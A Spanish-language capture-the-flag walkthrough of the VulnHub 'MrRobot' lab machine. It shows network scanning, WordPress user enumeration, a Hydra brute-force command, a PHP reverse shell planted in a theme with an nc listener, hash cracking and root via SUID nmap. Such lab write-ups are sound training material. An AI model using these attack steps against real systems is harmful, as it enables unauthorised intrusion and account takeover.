





# MrRobot – VulnHub Walkthrough (Detailed)

## Configuración de red

Primero configuramos las máquinas Kali y MrRobot en **NAT** para que ambas estén en el mismo segmento de red virtual.



NAT permite que las máquinas virtuales compartan la IP del host y puedan comunicarse entre ellas dentro de la red virtual.

---

## Inicio de la máquina

Al arrancar la máquina aparece la siguiente pantalla:


Esta máquina está inspirada en la serie **Mr. Robot** y contiene **tres claves ocultas** que debemos encontrar.

---

## Descubrimiento de la red

Desde Kali comprobamos nuestra IP:

```bash
ifconfig
```

Luego utilizamos:

```bash
sudo netdiscover -r 192.168.184.134/24
```

Netdiscover funciona mediante **ARP (Address Resolution Protocol)**.

ARP sirve para resolver direcciones IP a direcciones MAC dentro de una red local.

Proceso:

1. Un host envía una petición ARP broadcast
2. Pregunta "¿Quién tiene esta IP?"
3. El dispositivo responde con su MAC

Por eso **netdiscover solo funciona en redes locales**.

En infraestructuras como **AWS** este método no funciona porque usan virtualización de red y no responden a ARP broadcast.

Resultado:



La máquina víctima es **192.168.184.133**.

---

## Escaneo de puertos

Escaneo inicial:

```bash
nmap -p- -sV -Pn 192.168.184.133 --open
```

Explicación:

- `-p-` escanea todos los puertos
- `-sV` detecta versiones
- `-Pn` evita ping
- `--open` muestra solo abiertos

Resultado:

```
80/tcp  http
443/tcp https
```

Segundo escaneo:

```bash
nmap -p80,443 -sCV -Pn 192.168.184.133
```

- `-sC` scripts básicos
- `-sV` versiones

---

## Análisis web

Accedemos:

```
http://192.168.184.133
```



Parece una consola interactiva.

---

## Enumeración de directorios

Ejecutamos:

```bash
dirsearch -u http://192.168.184.133
```

Encontramos:

```
/admin
/wp-login.php
/robots.txt
```

---

## Robots.txt

Robots.txt indica a los motores de búsqueda qué rutas evitar.

Sin embargo también puede revelar información sensible.

Contenido:

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

---

## Primera clave

Accedemos:

```
/key-1-of-3.txt
```

y obtenemos la primera llave.

---

## Diccionario

Descargamos:

```
/fsocity.dic
```

Es un diccionario grande que usaremos para ataques de fuerza bruta.

---

## WordPress

Accedemos a:

```
/wp-login.php
```



WordPress es un **CMS (Content Management System)**.

Características:

- Usa PHP
- Base de datos MySQL
- Panel admin

Confirmamos con Wappalyzer:



---

## Enumeración de usuarios

WordPress revela si un usuario existe.

Probamos:

usuario incorrecto → error usuario

usuario real → error contraseña

Encontramos el usuario **elliot**.

---

## Ataque Hydra

```bash
hydra -l elliot -P diccionario.txt 192.168.184.133 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid password"
```

Encontramos credenciales válidas.

---

## Reverse shell

Editamos archivo PHP del tema y añadimos una reverse shell.

Listener:

```bash
nc -lvnp 4444
```

---

## Acceso a la máquina

Obtenemos shell:

```
daemon@linux
```

---

## Enumeración interna

Buscamos archivos:

```
/home/robot
```

Encontramos:

```
key-2-of-3.txt
password.raw-md5
```

---

## Crackeo de hash

El hash MD5 se crackea obteniendo la contraseña.

Accedemos con:

```
su robot
```

---

## Segunda clave

Leemos:

```
key-2-of-3.txt
```

---

## Escalada de privilegios

Buscamos SUID:

```bash
find / -perm -4000 2>/dev/null
```

Encontramos **nmap SUID**.

---

## Root

Ejecutamos:

```
nmap --interactive
!sh
```

Ahora somos root.

---

## Tercera clave

```
cat /root/key-3-of-3.txt
```

Máquina completada.
